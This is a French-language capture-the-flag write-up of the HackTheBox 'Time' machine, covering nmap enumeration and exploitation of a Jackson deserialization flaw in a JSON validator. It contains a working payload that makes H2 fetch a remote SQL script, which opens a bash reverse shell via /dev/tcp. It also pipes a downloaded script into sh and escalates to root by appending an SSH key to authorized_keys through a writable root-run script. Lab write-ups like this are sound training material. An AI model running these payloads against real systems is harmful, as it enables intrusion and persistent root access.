 ```yaml
---
title: " HackTheBox - [Time] "
description: Simple writeup of the Time box on Hackthebox.
---
```


   ![Time](https://media.discordapp.net/attachments/490431433559506954/832933487954231336/screenshot-193.png)


![r](https://cdn.discordapp.com/attachments/519930659620257797/832739076687134800/68747470733a2f2f692e696d6775722e636f6d2f344d37495777502e676966.gif)

## 0x1 - Nmap


```sh
PORT STATE SERVICE VERSION 
22/tcp open ssh  OpenSSH 8.2p1 Ubuntu 4ubuntu (Ubuntu Linux;
protocol 2.0)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On peut apercevoir qu'il y a les ports suivants qui sont ouverts :

```sh
80/http
22/ssh
```
Et un Système d'exploitation ``Linux``.

Nous allons jeter un coup d'œil au port ``http/80`` pour voir ce qu'il y'a d'intéressant.


## 0x2 - Enumération web


Nous voyons un embellisseur et un validateur json en ligne avec 2 options, ``"Beatify"`` et ``"Validate! (Beta)"``.


![A](https://media.discordapp.net/attachments/490431433559506954/832936431823224862/unknown.png)


J'ai intercepté les deux options via ``burpsuite`` et je viens de saisir un échantillon de données ``JSON`` dans le champ de saisie, sélectionnez l'option ``Beautify`` et cliquez sur le bouton ``PROCESS`` . Nous pouvons voir que cela fonctionne. 


Maintenant, essayez la même chose sur ``"Validate! (Beta)"`` options : 


![a](https://media.discordapp.net/attachments/490431433559506954/834012057694371850/unknown.png)


Vous avez une erreur!

```sh
Validation failed: Unhandled Java exception:com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token(START_OBJECT), expected START_ARRAY: need JSON Array to containAs.WRAPPER_ARRAY type information for class java.lang.Object
```




J'ai collé le message d'erreur dans la barre de recherche google : ```Unexpected token(START_OBJECT), expected START_ARRAY: need JSON Array to containAs.WRAPPER_ARRAY type information for class java.lang.Object``` Je suis tombé sur un article de ``stackoverflow``, expliquant l'erreur en question.
<a href="https://stackoverflow.com/questions/26251486/jackson-polymorphic-deserialization-expected-start-array">article here</a>



![ak](https://media.discordapp.net/attachments/490431433559506954/834008824389959690/unknown.png)



Après l'avoir lu, j'ai compris que l'erreur est liée à ``Jackson Polymorphic Deserialization expected START_ARRAY``.

On a la possibilité d'exécuter des scripts ``SQL`` sur la database H2.

Ceci est expliqué sur l'article : [article](https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html)

## 0x3 - Foothold


Maintenant, vous devez créer un fichier ``ak.sql`` et ajouter un reverse shell en bash pour qu'il me rappelle. :

```sh
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i &>/dev/tcp/tun0/1337 0>&1 &')
```


Maintenant démarrer un listenner avec netcat sur le port 1337 :

```sh
nc -nvlp 1337
listening on [any] 1337 ...
```

Amorcer un serveur python où est située votre fichier ak.sql :


```sh
sudo python -m SimpleHTTPServer
```


Et injecter votre payload sur l'option : ``"Validate!(Beta)"``.


```sh
[“ch.qos.logback.core.db.DriverManagerConnectionSource”,{“url”:”jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM ‘http://IP:PORT/ak.sql'”}]
```

Et vous obtenez un reverse shell sur l'user pericles.

```sh
listening on [any] 1337 ...
connect to [10.10.14.90] from (UNKNOWN) [10.10.10.214] 42212
```


Pour avoir un reverse shell stable type :

```sh
$python -c “import pty;pty.spawn(‘/bin/bash’)”
$export TERM=xterm
```

Vous obtenez l'user flag :

```sh
pericles@time:/home/pericles$ cat user.txt 
cat user.txt
7u7243a41d508868b8c935c47b554ad7
```


## 0x3 - Privilege Escalation


Maintenant nous allons upload ``Linpeas`` ( LinPEAS est un script qui recherche des chemins possibles pour augmenter les privilèges sous Linux ).

Installer linpeas : <a href="https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS">Linpeas</a>

Start un serveur python où se trouve votre fichier linpeas.sh et curl vers la machine cible.

```
sudo python -m SimpleHTTPServer 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim
```

Nous pouvons voir que root a accédé à ce fichier: ``«/usr/bin/timer_backup.sh»``. Qui appartient à votre utilisateur et est accessible en écriture et writeable.


![ak](https://media.discordapp.net/attachments/490431433559506954/834009494190817280/unknown.png)


Vous devez créer votre clé ssh, ajouter notre clé publique SSH au fichier ``allowed_keys`` sur le serveur. Pour ce faire, suivez les commandes suivants :


```sh
ssh-keygen
( no passphrase ) 
Copier votre clée id_rsa.pub key 
Et effectuez cette command sur la machine cible. : echo "echo id_rsa.pub >> /root/.ssh/authorized_keys" >> /usr/bin/timer_backup.sh
```

Maintenant vous faites un ``chmod 600`` pour avoirs les permissions puis vous vous connecter au port ssh avec la clée ``id_rsa`` : 


```sh
chmod 600 id_rsa && ssh -i id_rsa root@10.10.10.214
```

Done ! 

```sh
root@time:~# whoami
root
root@time:~# id
uid=0(root) gid=0(root) groups=0(root) 
```

Nous avons root la machine avec succès.

```sh
root@time:~# cat /root/root.txt
adsd9hf0c86b8786477033415e3018a4
```

##  Summary Of Knowledge : 

- Java Deserialization
- System Timer Exploitation

## About me :

- Post author : x0ld
- Github : [https://github.com/x0ld](https://github.com/x0ld)
- Twitter : @x0ld7
- HTB : [https://www.hackthebox.eu/home/users/profile/491690](https://www.hackthebox.eu/home/users/profile/491690)


